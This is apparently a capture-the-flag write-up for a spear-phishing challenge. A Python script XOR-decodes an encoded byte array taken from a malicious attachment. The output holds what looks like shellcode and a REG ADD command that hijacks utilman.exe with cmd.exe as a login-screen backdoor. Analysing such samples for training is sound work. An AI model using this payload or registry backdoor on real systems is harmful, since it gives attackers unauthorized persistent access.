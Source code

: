 ## CHALLENGE INFO
> Intergalactic Federation stated that it managed to prevent a large-scale phishing campaign that targeted all space personnel across the galaxy.
> The enemy's goal was to add as many spaceships to their space-botnet as possible so they can conduct distributed destruction of intergalactic services (DDOIS) using their fleet.
> Since such a campaign can be easily detected and prevented, malicious actors have changed their tactics.
> As stated by officials, a new spear phishing campaign is underway aiming high value targets.
> Now Klaus asks your opinion about a mail it received from "sales@unlockyourmind.gal", claiming that in their galaxy it is possible to recover it's memory back by following the steps contained in the attached file.

---

```Python
values = [ 228, 54, 240, 244, 154, 233, 24, 216, 24, 9, 24, 172, 120, 252, 145, 15, 253, 103, 41, 52, 216, 214, 124, 244, 147, 90, 72, 198, 40, 53, 147, 70, 74, 93, 20, 118, 147, 240, 74, 88, 12, 91, 147, 224, 106, 217, 48, 114, 23, 217, 175, 22, 82, 188, 62, 217, 41, 191, 231, 130, 180, 150, 36, 18, 121, 235, 100, 52, 26, 39, 52, 99, 56, 231, 217, 29, 215, 212, 21, 77, 25, 70, 223, 58, 250, 130, 234, 247, 74, 183, 79, 8, 147, 196, 74, 207, 8, 147, 147, 221, 82, 111, 36, 212, 147, 24, 84, 57, 9, 21, 96, 90, 251, 186, 80, 23, 25, 29, 201, 163, 73, 89, 147, 39, 65, 52, 56, 79, 25, 250, 203, 45, 147, 245, 81, 57, 0, 194, 251, 105, 34, 130, 81, 176, 147, 95, 44, 156, 147, 108, 25, 122, 206, 187, 41, 40, 231, 211, 180, 34, 217, 244, 215, 235, 21, 61, 25, 146, 223, 113, 32, 238, 248, 39, 109, 247, 238, 137, 27, 205, 101, 61, 224, 27, 35, 156, 101, 40, 60, 88, 109, 241, 252, 109, 64, 211, 147, 104, 64, 202, 60, 190, 25, 194, 203, 28, 126, 168, 147, 121, 20, 239, 83, 255, 147, 175, 64, 158, 4, 157, 25, 125, 203, 139, 147, 78, 28, 32, 147, 126, 25, 72, 200, 228, 145, 103, 92, 103, 60, 254, 60, 12, 67, 151, 67, 134, 121, 48, 65, 92, 66, 244, 73, 163, 231, 146, 248, 121, 71, 35, 71, 53, 66, 79, 147, 219, 10, 153, 243, 74, 149, 217, 69, 120, 114, 172, 25, 6, 149, 246, 157, 176, 170, 245, 24, 217, 24, 119, 24, 163, 72, 95, 112, 127, 41, 153, 147, 72, 119, 147, 159, 202, 231, 251, 205, 27, 163, 56, 232, 179, 173, 96, 186, 25, 78, 9, 112, 255, 190, 173, 141, 103, 165, 169, 133, 54, 231, 63, 205, 144, 36, 219, 30, 250, 100, 120, 18, 240, 152, 183, 227, 103, 248, 110, 109, 47, 29, 205, 163, 162, 95, 175, 11, 46, 106, 56, 119, 199, 114, 67, 24, 164, 75, 12, 231, 114, 205, 66, 74, 73, 93, 180, 95, 147, 56, 79, 89, 69, 92, 104, 92, 177, 56, 66, 58, 238, 80, 160, 83, 199, 84, 79, 85, 70, 68, 233, 75, 43, 87, 54, 94, 210, 76, 167, 79, 30, 89, 47, 74, 231, 93, 111, 68, 133, 85, 81, 113, 64, 123, 155, 106, 49, 119, 54, 107, 16, 119, 19, 126, 148, 108, 112, 68, 40, 79, 123, 113, 200, 118, 207, 124, 56, 119, 232, 111, 151, 107, 235, 56, 223, 86, 82, 76, 154, 68, 186, 91, 87, 109, 75, 106, 57, 106, 197, 125, 139, 118, 240, 108, 123, 78, 169, 125, 160, 106, 131, 107, 132, 113, 71, 119, 221, 118, 193, 68, 251, 81, 70, 117, 105, 121, 107, 127, 161, 125, 64, 56, 138, 94, 145, 113, 94, 116, 152, 125, 57, 56, 86, 93, 64, 96, 205, 125, 44, 123, 226, 109, 253, 108, 23, 113, 233, 119, 117, 118, 251, 56, 33, 87, 134, 104, 170, 108, 148, 113, 60, 119, 215, 118, 143, 107, 21, 68, 233, 109, 68, 108, 190, 113, 181, 116, 141, 117, 120, 121, 132, 118, 150, 54, 99, 125, 217, 96, 132, 125, 213, 58, 227, 56, 174, 55, 229, 108, 67, 56, 29, 74, 57, 93, 2, 95, 36, 71, 80, 75, 154, 66, 96, 56, 56, 55, 146, 110, 65, 56, 197, 92, 243, 125, 194, 122, 246, 109, 3, 127, 180, 127, 209, 125, 123, 106, 121, 56, 224, 55, 243, 124, 71, 56, 19, 58, 142, 91, 232, 34, 43, 68, 16, 111, 171, 113, 236, 118, 25, 124, 212, 119, 24, 111, 78, 107, 2, 68, 129, 107, 113, 97, 73, 107, 31, 108, 183, 125, 200, 117, 78, 43, 234, 42, 46, 68, 115, 123, 76, 117, 196, 124, 116, 54, 135, 125, 37, 96, 122, 125, 156, 58, 7, 56, 133, 55, 79, 126, 153, 35, 83, 125, 118, 123, 250, 112, 51, 119, 160, 56, 238, 58, 11, 80, 62, 76, 28, 90, 79, 99, 48, 41, 9, 107, 217, 71, 27, 108, 18, 112, 8, 41, 10, 107, 98, 71, 45, 127, 135, 44, 219, 116, 134, 44, 126, 96, 91, 97, 239, 71, 150, 116, 51, 40, 190, 107, 216, 108, 73, 71, 98, 41, 30, 118, 79, 71, 100, 108, 66, 41, 81, 117, 41, 43, 144, 39, 8, 39, 100, 57, 150, 101, 133, 58, 46, 24, 187 ]
for i in values[::2]:  
  print(chr(i ^ 24),end='')
```


```
üè`å1ÀdP0R
Ç8àuö}ø;}$uäXX$ÓfI▒ã:I4Ö1ÿ¬ÁÏ
                 KXÓÐD$$[[aYZQÿà__Zë]j²Ph1oÿÕ»ðµ¢Vh¦½ÿÕ<|
ûàu»GrojSÿÕREG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f;echo "HTB{1s_th1s_g4l4xy_l0st_1n_t1m3??!}"
```
